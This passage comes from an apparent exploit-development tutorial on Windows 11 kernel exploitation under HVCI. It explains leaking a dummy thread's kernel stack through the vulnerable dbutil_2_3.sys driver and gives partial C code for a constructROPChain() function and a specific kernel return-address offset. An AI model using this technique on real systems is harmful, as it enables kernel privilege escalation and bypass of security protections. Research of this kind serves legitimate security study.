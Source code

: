 <img src="{{ site.url }}{{ site.baseurl }}/images/HVCI33.png" alt="">

Recall also that the stack grows towards the lower memory addresses - meaning that the stack base won't actually have (usually) memory paged in/committed. Instead, we have to start going "up" the stack (by going down - since the stack grows towards the lower memory addresses) to see the contents of the "dummy thread's" stack.

<img src="{{ site.url }}{{ site.baseurl }}/images/HVCI34.png" alt="">

Putting all of this together, we can extend the contents of our `constructROPChain()` function to search our dummy thread's stack for the target return address of `nt!KiApcInterrupt + 0x328`. `nt!KiApcInterrupt + 0x328` is located at an offset of `0x41b718` on the version of Windows 11 I am testing this exploit on. 

<img src="{{ site.url }}{{ site.baseurl }}/images/HVCI35.png" alt="">

```c
/**
 * @brief Function used write a ROP chain to the kernel-mode stack
 *
 * This function takes the previously-leaked KTHREAD object of
 * our "dummy thread", extracts the StackBase member of the object
 * and writes the ROP chain to the kernel-mode stack leveraging the
 * write64() function.
 *
 * @param inHandle - A valid handle to the dbutil_2_3.sys.
 * @param dummyThread - A valid handle to our "dummy thread" in order to resume it.
 * @param KTHREAD - The KTHREAD object associated with the "dummy" thread.
 * @param ntBase - The base address of ntoskrnl.exe.
 * @return Result of the operation in the form of a boolean.
 */
BOOL constructROPChain(HANDLE inHandle, HANDLE dummyThread, ULONG64 KTHREAD, ULONG64 ntBase)
{
	//
	// KTHREAD.StackBase = KTHREAD + 0x38
	//
	ULONG64 kthreadstackBase = KTHREAD + 0x38;

	//
	// Dereference KTHREAD.StackBase to leak the stack
	//
	ULONG64 stackBase = read64(inHandle, kthreadstackBase);

	//
	// Error handling
	//
	if (stackBase == (ULONG64)1)
	{
		//
		// Bail out
		//
		goto exit;
	}

	//
	// Print update
	//
	printf("[+] Leaked kernel-mode stack: 0x%llx\n", stackBase);

	//
	// Variable to store our target return address for nt!KiApcInterrupt
	//
	ULONG64 retAddr = 0;

```